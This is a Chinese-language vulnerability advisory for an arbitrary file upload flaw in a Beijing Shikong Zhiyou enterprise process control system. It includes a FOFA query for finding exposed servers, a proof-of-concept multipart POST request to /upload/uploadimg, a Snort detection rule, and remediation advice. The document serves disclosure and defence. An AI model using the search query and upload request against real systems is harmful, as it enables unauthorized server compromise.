


# 北京时空智友科技有限公司企业流程化管控系统存在任意文件上传漏洞

北京时空智友科技有限公司企业流程化管控系统存在任意文件上传漏洞，攻击者可执行任意命令导致服务器被控。

# 影响版本

企业流程化管控系统

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：body="login.jsp?login=null"

POC/EXP：

```
POST /upload/uploadimg HTTP/1.1
Host:127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36
Accept: */*
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Length: 218

------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="file"; filename="1.txt"
Content-Type: application/octet-stream

hello world
------WebKitFormBoundary7MA4YWxkTrZu0gW--
```





sonrt规则：

```
alert http any any -> $HOME_NET any (
    msg:"北京时空智友 企业流程化管控系统 - /upload/uploadimg 任意文件上传";
    flow:to_server,established;
    http.method; content:"POST";
    http.uri;
        content:"/upload/uploadimg";
        fast_pattern;
    http.content_type; content:"multipart/form-data";
    http.request_body;
        content:"Content-Disposition: form-data; name=\"file\"";
        content:"filename=\""; distance:0; nocase;
        content:".txt"; distance:0; nocase;
    metadata:
        service http,
        affected_product "北京时空智友科技有限公司 企业流程化管控系统",
        vulnerability_type "Unrestricted File Upload";
        severity "high";
    classtype:web-application-attack;
    sid:1000775;
    rev:1;
    priority:1;
)
```

# 漏洞修复

关闭互联网暴露面或接口设置访问权限，升级至安全版本。
